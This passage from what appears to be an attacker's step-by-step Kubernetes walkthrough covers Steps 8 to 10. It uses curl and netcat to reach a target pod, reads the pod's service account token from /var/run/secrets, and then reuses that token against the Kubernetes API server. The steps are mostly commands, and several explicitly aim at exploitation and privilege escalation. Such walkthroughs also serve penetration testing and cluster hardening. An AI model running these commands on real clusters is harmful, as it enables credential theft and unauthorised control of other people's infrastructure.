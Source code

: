 **Step 8: Attempt to Access the Service on the Target Pod**

(Assuming port 80 is open on `10.244.1.5`)

```bash
# If curl is available
curl http://10.244.1.5

# If curl is not available, use netcat to send a basic HTTP request
echo -e "GET / HTTP/1.0\n\n" | nc 10.244.1.5 80
```

*   **Explanation:** These commands attempt to retrieve the HTTP content from the target pod on port 80. `curl` is a common tool for making HTTP requests.  If `curl` is not available, `netcat` can be used to send a basic HTTP request.
*   **Why:** To verify that the attacker can access the service running on the target pod and potentially exploit vulnerabilities.
*   **Expected Output:**
    *   `curl`: The HTML content returned by the web server running on the target pod.
    *   `netcat`: Similar output to `curl`, showing the HTTP response headers and content.
*   **Validation:** Receiving an HTTP response confirms successful communication with the service.  The content of the response may reveal sensitive information or vulnerabilities.

**Step 9: (Advanced) Check for the Kubernetes Service Account Token**

```bash
ls /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

*   **Explanation:**  Kubernetes automatically mounts a service account token into each pod.  If this token is exposed or inadvertently used, the attacker can use it to authenticate to the Kubernetes API and perform actions within the cluster. This would be extremely dangerous, escalating the threat.
*   **Why:** To retrieve the service account token, if present, for use in further exploitation or privilege escalation.
*   **Expected Output:**
    *   `ls`:  The output should show `/var/run/secrets/kubernetes.io/serviceaccount/token` indicating the file exists.
    *   `cat`: The content of the token file, which is a long string of characters.
*   **Validation:** The presence of the token and the ability to read its content indicate a serious vulnerability. If the service account has elevated privileges, the attacker could control the entire cluster.

**Step 10: (Advanced) Use the Token to Interact with the Kubernetes API Server (if token retrieved in Step 9)**

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER=$(kubectl config view --minify -o jsonpath='{.clusters[0].cluster.server}')
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

# Get Pods in the current namespace
curl -s --header "Authorization: Bearer $TOKEN" --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt $APISERVER/api/v1/namespaces/$NAMESPACE/pods | jq .
```
